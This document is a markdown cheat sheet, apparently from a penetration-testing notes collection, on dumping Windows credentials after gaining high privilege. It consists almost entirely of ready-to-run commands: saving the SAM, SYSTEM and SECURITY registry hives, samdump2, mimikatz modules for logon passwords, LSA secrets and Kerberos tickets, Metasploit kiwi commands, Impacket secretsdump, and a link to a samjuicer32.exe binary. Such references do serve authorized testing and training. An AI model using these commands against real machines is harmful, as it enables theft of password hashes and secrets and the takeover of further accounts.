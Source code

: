 ```yaml
---
description: In this topic your privilege has to be high privilege.
---
```


# Password Extraction

### samdump2

```
C:> reg save HKLM\SAM c:\SAM
C:> reg save HKLM\System c:\System

$ samdump2 System SAM
```

### mimikatz.exe

Need to match architectures and high privileges.

```
privilege::debug
20 ‘OK’

sekurlsa::logonPasswords
lsadump::sam
lsadump::lsa /patch
lsadump::secrets
kerberos::list
```

### Metasploit

```
load kiwi

creds_all
lsa_dump_lsa
lsa_dump_secrets
kerberos_list
```

### Impacket

Get a copy of the SYSTEM, SECURITY and SAM hives and download them back to your local system.

```
C:> reg.exe save hklm\sam c:\windows\temp\sam.save
C:> reg.exe save hklm\security c:\windows\temp\security.save
C:> reg.exe save hklm\system c:\windows\temp\system.save

$ secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

### samjuicer32.exe

windows 2000 service pack3 5.00.2195

[https://github.com/basicScandal/WinHackingBin/blob/master/Passdump/samjuicer32.exe](https://github.com/basicScandal/WinHackingBin/blob/master/Passdump/samjuicer32.exe)

```
C:\> samjuicer32.exe
```
